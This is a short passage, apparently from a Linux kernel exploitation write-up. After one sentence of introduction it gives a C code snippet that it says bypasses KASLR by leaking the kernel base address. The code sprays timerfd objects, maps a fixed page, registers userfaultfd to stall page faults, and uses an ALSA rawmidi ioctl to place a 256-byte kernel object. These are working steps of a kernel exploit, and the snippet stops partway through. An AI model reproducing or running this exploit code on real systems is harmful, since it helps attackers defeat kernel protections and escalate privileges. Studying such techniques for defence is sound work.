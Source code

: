 <br/>

The following code snippet demonstrates how to use these structures to bypass KASLR by leaking the kernel base address:
```c
    int qid[1];
    if ((qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
    {
        perror("msgget");
        exit(1);
    }

    struct itimerspec its;

    its.it_interval.tv_sec = 0;
    its.it_interval.tv_nsec = 0;
    its.it_value.tv_sec = 9999;
    its.it_value.tv_nsec = 0;

    int tfd[256];

    for(int i = 0; i < 256 / 2; i++)
    {
        tfd[i] = timerfd_create(CLOCK_REALTIME, 0);
        timerfd_settime(tfd[i], 0, &its, 0);
    }

    if ((page = mmap((void *)0x1336000, PAGE_SIZE * 2, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0)) == MAP_FAILED)
    {
        perror("[-] mmap()");
        exit(0);
    }

    puts("[+] Mapping two pages");

    char *addr = page;
    memset(addr, 'A', PAGE_SIZE);

    puts("[+] Registering one page userfaultfd"); 

    /* Registering mapped area */
    register_userfaultfd((uint64_t *) ADDRESS_PAGE_FAULT);

    puts("[+] Raising up the handler for userfaultfd");

    /* Handler for userfault */
    pthread_create(&thread[0], NULL, handler_userfaultfd, (void *) &uffd);

    /* Create one object by size 256 */
    srp.stream = SNDRV_RAWMIDI_STREAM_OUTPUT;
    srp.buffer_size = 240;
    srp.avail_min = 1;
    uint64_t err = ioctl(fd, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Created one object by size 256");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    struct args_trigger args;
```